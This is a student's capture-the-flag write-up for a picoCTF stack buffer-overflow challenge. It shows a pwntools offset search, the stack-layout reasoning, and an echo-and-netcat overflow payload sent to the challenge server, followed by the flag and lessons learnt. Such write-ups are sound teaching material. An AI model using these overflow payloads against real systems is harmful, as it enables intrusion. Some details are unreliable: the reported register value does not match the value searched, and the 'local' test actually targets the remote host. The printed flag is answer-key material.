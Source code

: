 Now rbp held 0x6361617463616173. I searched for that value in the pattern:
```
python3 - <<'PY'
from pwn import cyclic_find
print(cyclic_find(0x6361617263616173))
PY
```


This returned 272. That told me the 8-byte sequence I searched for begins at byte index 272 in the input, meaning it occupies indices 272..279. Saved RBP is the 8 bytes immediately before the saved return address (saved RIP), so its start index is 272 - 8 = 264. (The -8 is simply because saved RBP is 8 bytes long and sits just before saved RIP.)

Therefore I crafted a payload that writes my 8-byte value at index 264. I used echo -e (because a simple echo won't interpret \x sequences) and tested locally first:
```
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' | nc mars.picoctf.net 31890
```

This returned the flag.


## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:
I learned a few simple things from this challenge: the stack layout is input buffer → saved RBP (8 bytes) → return address, overflowing the buffer can overwrite those saved slots, the RBP value shown in GDB came from the saved RBP slot, pwntools cyclic()/cyclic_find() finds the exact byte offset in a test pattern, and GDB lets you disassemble and inspect registers to see which stack slot to change.


## Incorrect Tangents

The main incorrect tangent i went on was not using gdb to analyze the file and being solely dependent on the source code but soon i realized that this felt similar to one of the challenges told in the playlist(in resources) for buffer overflow.

## Resources:

https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13